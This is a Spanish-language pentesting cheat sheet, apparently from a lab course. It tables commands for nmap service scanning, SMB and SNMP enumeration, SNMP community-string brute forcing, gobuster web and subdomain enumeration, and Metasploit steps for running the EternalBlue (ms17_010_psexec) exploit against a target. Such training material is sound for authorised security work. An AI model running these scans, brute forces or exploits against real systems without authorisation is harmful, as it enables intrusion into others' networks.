 
### **Pentesting**

#### **Escaneo de Servicios**

|**Comando**|**Descripción**|
|---|---|
|`nmap 10.129.42.253`|Escanear un IP con Nmap.|
|`nmap -sV -sC -p- 10.129.42.253`|Realizar un escaneo de Nmap con scripts en todos los puertos.|
|`locate scripts/citrix`|Listar scripts de Nmap disponibles para Citrix.|
|`nmap --script smb-os-discovery.nse -p445 10.10.10.40`|Ejecutar un script de Nmap en SMB.|
|`netcat 10.10.10.10 22`|Capturar el banner de un puerto abierto con Netcat.|
|`smbclient -N -L \\\\10.129.42.253`|Listar los recursos compartidos SMB en un servidor.|
|`smbclient \\\\10.129.42.253\\users`|Conectarse a un recurso compartido SMB.|
|`snmpwalk -v 2c -c public 10.129.42.253 1.3.6.1.2.1.1.5.0`|Realizar un escaneo SNMP.|
|`onesixtyone -c dict.txt 10.129.42.254`|Fuerza bruta del string secreto SNMP.|

#### **Enumeración Web**

|**Comando**|**Descripción**|
|---|---|
|`gobuster dir -u http://10.10.10.121/ -w /usr/share/dirb/wordlists/common.txt`|Ejecutar un escaneo de directorios en un sitio web.|
|`gobuster dns -d inlanefreight.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt`|Escanear subdominios en un sitio web.|
|`curl -IL https://www.inlanefreight.com`|Capturar el banner de un sitio web con `curl`.|
|`whatweb 10.10.10.121`|Obtener detalles sobre el servidor web y certificados.|
|`curl 10.10.10.121/robots.txt`|Listar posibles directorios en `robots.txt`.|
|`ctrl+U`|Ver el código fuente de una página (en Firefox).|

#### **Exploits Públicos**

|**Comando**|**Descripción**|
|---|---|
|`searchsploit openssh 7.2`|Buscar exploits públicos para una aplicación.|
|`msfconsole`|Iniciar el Metasploit Framework (MSF).|
|`search exploit eternalblue`|Buscar exploits en Metasploit.|
|`use exploit/windows/smb/ms17_010_psexec`|Utilizar un módulo de Metasploit.|
|`show options`|Mostrar las opciones necesarias para un módulo.|
|`set RHOSTS 10.10.10.40`|Configurar un valor para un módulo en Metasploit.|
|`check`|Verificar si el servidor objetivo es vulnerable.|
|`exploit`|Ejecutar el exploit en el servidor objetivo.|
